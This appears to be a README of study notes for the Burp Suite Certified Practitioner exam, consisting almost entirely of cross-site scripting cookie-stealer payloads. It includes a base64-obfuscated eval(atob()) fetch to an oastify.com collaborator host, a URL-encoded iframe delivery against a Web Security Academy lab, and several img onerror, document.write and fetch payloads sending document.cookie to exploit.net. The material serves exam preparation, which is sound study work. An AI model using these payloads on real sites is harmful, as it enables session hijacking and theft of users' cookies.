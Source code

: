 
# Burp-Suite-Certified-Practitioner-Exam-Study
Burp Suite Certified Practitioner Exam Study Notes

## Cross Site Scripting

### Cookie Stealers

#### Reflected XSS in Search
Search with Reflected XSS deliver Phishing link to victim with cookie stealing payload
<sub>WAF is preventing dangerous search filters and tags!</sub>
```JavaScript
fetch("https://839cktu7uogedm6a1kjuy3outlzcn2br.oastify.com/?c=" + btoa(document['cookie']))
```
<sup>Base64 encode the payload</sup>
```
ZmV0Y2goImh0dHBzOi8vODM5Y2t0dTd1b2dlZG02YTFranV5M291dGx6Y24yYnIub2FzdGlmeS5jb20vP2M9IiArIGJ0b2EoZG9jdW1lbnRbJ2Nvb2tpZSddKSk=
```
<sub>Test payload on our own session in Search</sub>
```JavaScript
"+eval(atob("ZmV0Y2goImh0dHBzOi8vODM5Y2t0dTd1b2dlZG02YTFranV5M291dGx6Y24yYnIub2FzdGlmeS5jb20vP2M9IiArIGJ0b2EoZG9jdW1lbnRbJ2Nvb2tpZSddKSk="))}//
```
![This image show after entering the above into search and the collaborator receiving request with base64 cookie value from us.](xss1.png)
<sup>hosting in iframe on exploit server</sup>
```html
<iframe src="https://0ab400ae04775498c08e0b8b00ef00bd.web-security-academy.net/?SearchTerm=%22%2b%65%76%61%6c%28%61%74%6f%62%28%22%5a%6d%56%30%59%32%67%6f%49%6d%68%30%64%48%42%7a%4f%69%38%76%5a%58%68%77%62%47%39%70%64%43%30%77%59%54%6b%34%4d%44%42%68%5a%6a%41%30%4d%6a%67%31%4e%47%49%77%59%7a%41%77%59%54%41%34%4d%47%59%77%4d%57%46%69%4d%44%41%79%5a%43%35%6c%65%48%42%73%62%32%6c%30%4c%58%4e%6c%63%6e%5a%6c%63%69%35%75%5a%58%51%76%50%32%4d%39%49%69%41%72%49%47%4a%30%62%32%45%6f%5a%47%39%6a%64%57%31%6c%62%6e%52%62%4a%32%4e%76%62%32%74%70%5a%53%64%64%4b%53%6b%3d%22%29%29%7d%2f%2f"/>
```
URL and Base64 online encoders and decoders
[URL Decode and Encode](https://www.urldecoder.org/)
[BASE64 Decode and Encode](https://www.base64encode.org/)  

Blog post comment section
```html
<img src="1" onerror="window.location='http://exploit.net/cookie='+document.cookie">
```  

Product and Store lookup
```html
?productId=1&storeId="></select><img src=x onerror=this.src='http://exploit.net/?'+document.cookie;>
```  

Stored XSS Blog post
```JavaScript
<script>
document.write('<img src="http://exploit.net?cookieStealer='+document.cookie+'" />');
</script>
```  

Fetch API Cookie Stealer
```JavaScript
<script>
fetch('https://exploit.net', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
